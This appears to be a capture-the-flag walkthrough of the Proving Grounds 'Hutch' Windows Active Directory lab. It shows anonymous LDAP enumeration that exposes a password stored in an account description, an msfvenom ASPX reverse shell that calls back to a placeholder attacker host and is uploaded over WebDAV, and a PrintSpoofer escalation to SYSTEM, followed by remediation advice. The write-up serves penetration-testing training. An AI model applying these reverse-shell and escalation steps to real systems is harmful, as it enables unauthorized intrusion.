



# Hutch — Proving Grounds

| | |
|---|---|
| **Platform** | Proving Grounds (Practice) |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Practice machine, no overlap with the OSCP exam pool |
| **Key techniques** | Anonymous LDAP enumeration, password disclosure in AD account description, WebDAV file upload (ASPX payload), `SeImpersonatePrivilege` (PrintSpoofer) |

---

## TL;DR

Hutch's domain controller allows anonymous LDAP queries, which leak a
user's password in plain text in the account's **description field** — a
surprisingly common real-world habit for storing "temporary" credentials.
That account has valid access to a WebDAV-enabled IIS site, letting an ASPX
reverse shell be uploaded directly. From there, `SeImpersonatePrivilege`
clears the rest of the way to SYSTEM via PrintSpoofer.

---

## Recon & Enumeration

```bash
sudo nmap -sCV -p- <TARGET_IP>
```



LDAP (port 3268, Global Catalog) accepted anonymous binds.

---

## Foothold / Initial Access

Enumerating accounts over anonymous LDAP surfaced full account details,
including a **description field** on one account containing a plaintext
password directly: `fmcsorley/CrabSharkJellyfish192`.



Storing a password in
an AD description field is a known anti-pattern (often left over from
account creation/onboarding notes), and LDAP descriptions are readable by
any authenticated — or here, unauthenticated — query.

The web service was IIS with **WebDAV** enabled. Testing the recovered
credential against WebDAV with `cadaver` succeeded, confirming write access.
Generating an ASPX reverse shell with `msfvenom` and uploading it via
`cadaver`'s `PUT` gave a shell the moment the file was requested through the
browser, running as the IIS application pool identity:

```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=<ATTACKER_IP> lport=4444 -f aspx > shell.aspx
```



User flag retrieved.

---

## Privilege Escalation

`whoami /priv` on the IIS app pool shell showed **`SeImpersonatePrivilege`**
— standard for IIS application pool identities, and a direct route to
SYSTEM via the Potato/PrintSpoofer family. Uploading PrintSpoofer and
running it produced a SYSTEM shell:

```
PrintSpoofer.exe -i -c cmd
```

Root flag retrieved.

---

## Lessons Learned

- **Anonymous LDAP is a full account/attribute dump, not just usernames** —
  always pull description fields, notes, and other free-text attributes;
  passwords end up there more often than expected.
- **WebDAV + valid credentials = arbitrary file upload** on IIS, and an
  ASPX payload gets code execution the moment the uploaded file is
  requested.
- IIS application pool identities carry `SeImpersonatePrivilege` by design —
  PrintSpoofer/Potato-family tools are close to automatic from that shell.

---

## Remediation

- Never store credentials in AD attribute fields (description, notes,
  etc.); use a dedicated secrets vault for anything sensitive, even
  "temporary" values.
- Restrict or disable anonymous LDAP binds on the domain controller.
- Disable WebDAV on IIS sites that don't require it, and restrict write
  access even where it is required.

---

**Machine:** [Proving Grounds — Hutch](https://portal.offsec.com/labs/play)
